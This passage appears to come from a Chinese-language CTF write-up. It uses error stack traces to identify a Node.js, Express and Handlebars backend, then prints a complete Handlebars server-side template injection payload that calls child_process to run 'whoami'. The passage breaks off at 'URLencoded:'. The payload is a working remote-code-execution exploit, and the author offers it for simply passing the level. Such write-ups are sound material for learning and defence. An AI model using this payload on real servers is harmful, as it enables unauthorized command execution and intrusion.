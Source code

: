 ```groovy
    at next (/root/Backend/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/root/Backend/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/root/Backend/node_modules/express/lib/router/layer.js:95:5)
```

從錯誤資訊可以得知它預期的資料型態

```groovy
Expecting 'ID', 'STRING', 'NUMBER', 'BOOLEAN', 'UNDEFINED', 'NULL', 'DATA', got 'INVALID'
```

以及 server side 使用的 template engine 是 handlebars

```groovy
at Parser.parseError (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:268:19)
```

### payload

這篇 writeup 有詳細介紹 template injection 的原理和怎麼使用 payload

Handlebars template injection and RCE in a Shopify app
[http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)

如果要弄懂的話應該要好好讀一下，如果只是要通關，就把下面的 payload 丟過去炸應該就 ok 了

從目前收集到的資訊可以知道，這是一個典型的組合: nodejs + express + handlebars

payload 最主要的目的是 require child process 並執行 whoami 指令的那段

```jsx
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

URLencoded:
